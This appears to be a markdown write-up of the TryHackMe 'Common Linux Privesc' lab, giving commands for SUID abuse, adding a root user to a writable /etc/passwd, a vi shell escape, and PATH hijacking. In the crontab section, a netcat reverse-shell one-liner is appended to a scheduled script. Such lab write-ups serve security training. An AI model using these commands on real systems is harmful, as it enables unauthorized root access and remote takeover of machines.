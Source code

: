 # Common Linux Privesc

**Room Link:** [https://tryhackme.com/room/commonlinuxprivesc](https://tryhackme.com/room/commonlinuxprivesc)



## Enumeration



Download LinEnum Script

**Kali**

```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Login to host

**Kali**

```
ssh user3@$VICTIM
Password: password
```

The target's hostname

<figure><img src="../../.gitbook/assets/image (1) (11).png" alt=""><figcaption></figcaption></figure>

There are 8 users

<figure><img src="../../.gitbook/assets/image (2) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

4 shells

<figure><img src="../../.gitbook/assets/image (5) (3) (2).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (3) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

Some users can write to passwd file

<figure><img src="../../.gitbook/assets/image (4) (9).png" alt=""><figcaption></figcaption></figure>

## Abusing SUID/GUID Files

**Victim**

```
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Running the shell script in user3 home directory gives us root access right away.

**Victim**

```
/home/user3/shell
```

<figure><img src="../../.gitbook/assets/image (4) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Exploiting Writeable /etc/passwd

**Victim**

```
su user7
Password: password
```

**Victim**

```
openssl passwd -1 -salt new 123
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
cat /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (6) (3) (3).png" alt=""><figcaption></figcaption></figure>

```
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (1) (7).png" alt=""><figcaption></figcaption></figure>

## Escaping Vi Editor

**Victim**

```
su user8
Password: password
```

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (3) (1) (6).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo vi
:!sh
whoami
```

<figure><img src="../../.gitbook/assets/image (5) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Exploiting Crontab

**Victim**

```
ssh user4@$VICTIM
Password: password
```

**Kali**

```
msfvenom -p cmd/unix/reverse_netcat lhost=$KALI lport=8888 R
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 8888
```

**Victim**

```
cat /etc/crontab 
```

<figure><img src="../../.gitbook/assets/image (11) (1) (4).png" alt=""><figcaption></figcaption></figure>

Add our payload we made in Kali to the script

**Victim**

```
echo 'mkfifo /tmp/cibykaz; nc 10.10.185.2 8888 0</tmp/cibykaz | /bin/sh >/tmp/cibykaz 2>&1; rm /tmp/cibykaz' >> /home/user4/Desktop/autoscript.sh
```

Wait for the script to run and catch the shell on Kali.

<figure><img src="../../.gitbook/assets/image (3) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Exploiting PATH Variable

**Victim**

```
su user5
Password: password
```

The script in user5 home directory is just doing the command ls.

**Victim**

```
cd /home/user5
./script
```

<figure><img src="../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

We now create a script called ls that gives us a bash shell.

**Victim**

```
cd /tmp
echo "/bin/bash" > ls
chmod +x ls
```

Before we change the path we can see ls goes to /bin/ls

****![](<../../.gitbook/assets/image (8) (7).png>)****

Now after running the below command ls is now directed to our script.

**Victim**

```
export PATH=/tmp:$PATH
```

<figure><img src="../../.gitbook/assets/image (14) (3) (1).png" alt=""><figcaption></figcaption></figure>

Now the script in user5s directory acts differently, we now have a root shell.

**Victim**

```
cd /home/user5
/script 
```

<figure><img src="../../.gitbook/assets/image (18) (3).png" alt=""><figcaption></figcaption></figure>

Run the following to reset the path variable.

**Victim**

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH
```
